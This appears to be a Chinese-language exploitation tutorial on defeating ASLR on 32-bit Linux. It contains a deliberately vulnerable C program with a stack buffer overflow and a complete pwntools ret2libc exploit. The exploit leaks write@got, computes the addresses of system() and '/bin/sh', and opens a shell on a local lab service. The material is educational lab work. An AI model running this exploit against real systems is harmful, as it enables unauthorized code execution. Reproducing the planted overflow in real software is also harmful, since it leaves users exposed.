









### 1.1  Linux下的ASLR内存保护机制

#### 1.1.1  Linux下的ASLR工作原理

工作原理与window下的aslr类似

 

#### 1.1.2 Linux下利用内存地址泄露绕过ASLR

##### ⑴. 原理分析：

那么如何解决地址随机化的问题呢？

思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，所以我们只要把返回值设置到程序本身就可执行我们期望的指令了。

首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：

 

 

我们发现除了程序本身的实现的函数之外，我们还可以使用read@plt()和write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实我们有write@plt()函数就够了，因为我们可以通过write@plt  ()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢?  这是因为linux采用了延时绑定技术，当我们调用write@plit()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plit()会根据write.got 跳转到真正的write()函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

##### ⑵．环境准备：

i．漏洞代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void flow(){
  char buf[128];
  read(STDIN_FILENO,buf,256);
}

int main(){
  flow();
  char a[]="hello";
  write(STDOUT_FILENO,a,strlen(a));
  return 0;
}

编译指令：
gcc -fno-stack-protector -g -m32 -o vuln vuln.c
```

ii．测试环境：

测试系统：Ubuntu 16.04

辅助插件：peda

系统开启aslr：

 

##### ⑶．测试分析：

i．存在漏洞的函数flow返回地址：

反汇编主函数：

 

漏洞函数位置：0x0804846b。

 

ii．确定偏移量：

利用pattern.py脚本实现(可以在GitHub上下到)：

生成150字节的字符串

 

在调试器运行程序：

 

返回地址被覆盖为0x37654136： 

确定偏移：

 

偏移量为140字节。

##### ⑷．攻击过程：

i．exp脚本：

```py
\#!/usr/bin/env python

from pwn import *

 

libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('/home/zhang/pass_NX/vuln')

 
p = remote('127.0.0.1', 10003)

 
plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x804846b
print 'vulfun= ' + hex(vulfun_addr)

 
“””plt_write是主程序中write函数的地址，也是write@plt()函数的地址，后面是write函数的参数，将got表中的write()函数的真实地址写入到stdout。”””
payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)
 

print "\n###sending payload1 ...###"
p.send(payload1)


print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

 
print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

 
payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

 
print "\n###sending payload2 ...###"
p.send(payload2)
p.interactive()
```


ii. 运行脚本，攻击成功：

